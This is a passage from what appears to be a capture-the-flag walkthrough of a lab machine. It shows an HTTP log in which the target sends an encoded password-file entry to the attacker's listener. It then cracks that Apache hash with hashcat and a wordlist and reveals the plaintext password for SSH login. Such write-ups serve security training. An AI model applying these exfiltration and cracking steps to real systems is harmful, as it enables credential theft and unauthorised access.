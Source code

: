 Repeat the exploit steps above to get the call back.

```bash
10.10.14.9 - "GET /?shiro=%0A HTTP/1.1" 200 -
10.10.11.44 - "GET /?shiro=%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A HTTP/1.1" 200 -
```

Decode the encoded text using `CyberChef`.

```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Nice, we finally get a password hash for user `albert`.

Lets identify the password hash and crack the hash using `hashcat`.

```bash
❯ echo '$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/' > albert_hash.txt
❯ hashcat --identify albert_hash.txt
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)                      | FTP, HTTP, SMTP, LDAP Server
   
❯ hashcat -m 1600 -a 0 albert_hash.txt /usr/share/wordlists/rockyou.txt
...
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
                                                          
Session..........: hashcat
Status...........: Cracked
```

With `albert` credentials, we can login to his account on `statistics.alert.htb` and `ssh`.
